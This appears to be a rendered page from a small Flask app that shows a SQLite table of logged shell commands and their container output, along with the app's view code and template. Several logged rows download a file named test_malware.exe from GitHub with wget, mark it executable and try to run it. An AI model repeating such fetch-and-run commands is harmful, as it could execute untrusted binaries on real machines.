
The page / (upper part) on the database its author committed.
### tables this page shows
CREATE TABLE KNOWLEDGE_DB (
                id TEXT PRIMARY KEY ,
                command TEXT,
                output TEXT
                );

### web_app.py (the view)
@app.route('/', methods=['GET', 'POST'])
def index():
    conn = get_db_connection()
    if request.method == 'POST':
        command = request.form['command']
        cursor = conn.execute('SELECT * FROM KNOWLEDGE_DB WHERE command LIKE ?', (f'%{command}%',))
    else:
        cursor = conn.execute('SELECT * FROM KNOWLEDGE_DB')
    rows = cursor.fetchall()
    conn.close()
    return render_template('index.html', data=rows)

### web_app.py (called while the page is built)
def get_db_connection():
    conn = sqlite3.connect('database/knowlege_base_command.db')
    conn.row_factory = sqlite3.Row
    return conn

### templates/index.html (shortened to what this page needs)
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <form method="post" action="/">
        <input type="text" name="command" placeholder="Enter command to filter">
        <input type="submit" value="Filter">
    </form>
    <table>
        <thead>
            <tr>
                <th>ID</th>
                <th>Command</th>
                <th>Output</th>
            </tr>
        </thead>
        <tbody>
            {% for row in data %}
            <tr>
                <td>{{ row['id'] }}</td>
                <td>{{ row['command'] }}</td>
                <td>{{ row['output'] }}</td>
            </tr>
            {% endfor %}
        </tbody>
    </table>
</body>
</html>

### templates/index.html (style rules this page uses)
table { border-collapse: collapse; width: 100%; }
th, td { padding: 8px; text-align: left; border-bottom: 1px solid #ddd; }
tr:nth-child(even) { background-color: #f2f2f2; }

### rows shown on the page
KNOWLEDGE_DB: id "2a9d3f106923b097e068392ce3066a9b9de3b36ffa4717920ab3ad1c3bdf19ae", command "chmod +x test_malware.exe", output "chmod: cannot access 'test_malware.exe': No such file or directory"
KNOWLEDGE_DB: id "102616f5c9ba9b3de6bfbfaf0be690b0e1fd96db3f7000f18dc512c1a52a5d12", command "exit", output "OCI runtime exec failed: exec failed: unable to start container process: exec: \"exit\": executable file not found in $PATH: unknown"
KNOWLEDGE_DB: id "c7b68ac37f364473e922936708e7f43c293dd07b295171566c07ff5fe024fab9", command "ls"
KNOWLEDGE_DB: id "1ee77b67ed5b38ad7621c646e9f83955c50d49d4f44ba85f997ecb765716527f", command "wget https://github.com/zauzooz/test_malware/raw/master/test_malware.exe", output "--2023-06-12 09:43:29-- https://github.com/zauzooz/test_malware/raw/master/test_malware.exe Resolving github.com (github.com)... 20.205.243.166 Connecting to github.com (github.com)|20.205.243.166|:443... connected. HTTP request sent, awaiting response... 302 Found Location: https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe [following] --2023-06-12 09:43:32-- https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ... Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected. HTTP…"
KNOWLEDGE_DB: id "f0793e8cbe7b880dd65bc087efb43d193d1c5d575b376b6f47535905effc0e57", command "./test_malware.exe", output "OCI runtime exec failed: exec failed: unable to start container process: exec: \"./test_malware.exe\": stat ./test_malware.exe: no such file or directory: unknown"
KNOWLEDGE_DB: id "65050d6772d3f89bf11546dc2c89e6a828048ee9e694ffaed30005ffd1bb31ce", command "wget https://github.com/zauzooz/test_malware/raw/master/test_malware.exe", output "--2023-06-12 09:42:37-- https://github.com/zauzooz/test_malware/raw/master/test_malware.exe Resolving github.com (github.com)... 20.205.243.166 Connecting to github.com (github.com)|20.205.243.166|:443... connected. HTTP request sent, awaiting response... 302 Found Location: https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe [following] --2023-06-12 09:42:39-- https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ... Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected. HTTP…"
KNOWLEDGE_DB: id "81d1bded969dc4cb7f3befa3c14cb9d5a35a46eb69469f48cc6be80cefcf3867", command "wget https://github.com/zauzooz/test_malware/raw/master/test_malware.exe", output "--2023-06-12 09:42:11-- https://github.com/zauzooz/test_malware/raw/master/test_malware.exe Resolving github.com (github.com)... 20.205.243.166 Connecting to github.com (github.com)|20.205.243.166|:443... connected. HTTP request sent, awaiting response... 302 Found Location: https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe [following] --2023-06-12 09:42:13-- https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ... Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected. HTTP…"
KNOWLEDGE_DB: id "65498b0b4c7a9696cb4b76c4ec470d3d82e3b8bdf9509273c665a4339fe2654a", command "wget https://github.com/zauzooz/test_malware/raw/master/test_malware.exe", output "--2023-06-12 09:40:26-- https://github.com/zauzooz/test_malware/raw/master/test_malware.exe Resolving github.com (github.com)... 20.205.243.166 Connecting to github.com (github.com)|20.205.243.166|:443... connected. HTTP request sent, awaiting response... 302 Found Location: https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe [following] --2023-06-12 09:40:28-- https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ... Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected. HTTP…"
KNOWLEDGE_DB: id "87cfa1aca6e78f0f01f4b1f1ef6c65506b0ec1961dc797b08982add4552dbd51", command "wget https://github.com/zauzooz/test_malware/raw/master/test_malware.exe", output "--2023-06-12 09:40:41-- https://github.com/zauzooz/test_malware/raw/master/test_malware.exe Resolving github.com (github.com)... 20.205.243.166 Connecting to github.com (github.com)|20.205.243.166|:443... connected. HTTP request sent, awaiting response... 302 Found Location: https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe [following] --2023-06-12 09:40:43-- https://raw.githubusercontent.com/zauzooz/test_malware/master/test_malware.exe Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ... Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected. HTTP…"
